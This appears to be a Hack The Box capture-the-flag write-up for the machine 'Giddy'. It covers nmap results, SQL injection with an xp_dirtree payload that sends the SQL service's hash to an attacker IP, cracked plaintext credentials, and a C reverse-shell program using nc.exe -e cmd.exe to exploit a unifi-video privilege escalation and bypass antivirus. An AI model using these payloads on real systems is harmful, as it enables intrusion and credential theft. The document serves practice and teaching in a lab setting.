# giddy


## nmap


PORT     STATE SERVICE       VERSION                                                                                                                                     
80/tcp   open  http          Microsoft IIS httpd 10.0                                                                                                                    
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
443/tcp  open  ssl/http      Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
| ssl-cert: Subject: commonName=PowerShellWebAccessTestWebSite
| Not valid before: 2018-06-16T21:28:55
|_Not valid after:  2018-09-14T21:28:55
|_ssl-date: 2020-09-04T08:24:55+00:00; +23s from scanner time.
| tls-alpn: 
|   h2
|_  http/1.1
3389/tcp open  ms-wbt-server Microsoft Terminal Services


## httpenumeration

- using gobuster found few directories




- remote directory is for remote powershell connection




- mvc is asp.net application homepage


## Microsoft mysql Server

- we find a sql injection in one of the link that take argument as product sub category




- we can use sqlmap to dump databases
- we dont find anything useful from the database


## responder

- we can setup a responder and relay the hash of sql service to us
- we can xp_dirtree to make it go to our location
- since mssql supports stacked queries

```mssql
; use master; exec xp_dirtree '\\10.10.14.37\SHARE\sss';-- 
```




- we got the hash now we need to decrypt it




#### hashcat

- we got the credentials



username					stacy

password					xNnWo6272k7x


## shell

- using this in the powershell remote session to see if it works




- we got a shell


## post


- we see something called unifivideo in documents 
- in searcsploit we can see there is a vulnerability of local privilege escalation




- there is a vulnerability in unifi-video that executes a task called taskkill.exe but it doesnt exist
- as this service is running as local system chances are we will get execution as NT Authority


- but there is a problem antivirus is installed and its removing our msfvenom payload

- so we create a custom **C code** that executes netcat and give us shell

```c
#include "stdlib.h"                                                                                        

   int main()
   {
       system("nc.exe -e cmd.exe 10.10.14.37 4444");
       return 0;
   }

```


- we will compile the code with mingw

```bash
x86_64-w64-mingw32-gcc taskkill.c -o taskill.exe
```

- we also need to export path variable where we will store our nc program
- we need to copy nc program in the directory where the program will run or give absolute path if we are saving it somewhere else

- then i stored nc in that directory now it is in environment path so it will be executed globally


- now we need to query for services for that we will go to registry as simple get-service query is not accessible

```powershell
Set-Location "HKLM:\SYSTEM\CurrentControlSet\Services"
Get-ChildItem . | Select-Object Name
```




```powershell
ls | Where-Object { $_.Name -like '*UniFiVideoService'}
```




```powershell
Stop-Service "Service Name"
Start-Service "Service Name"
```


#### NT AUTHORITY




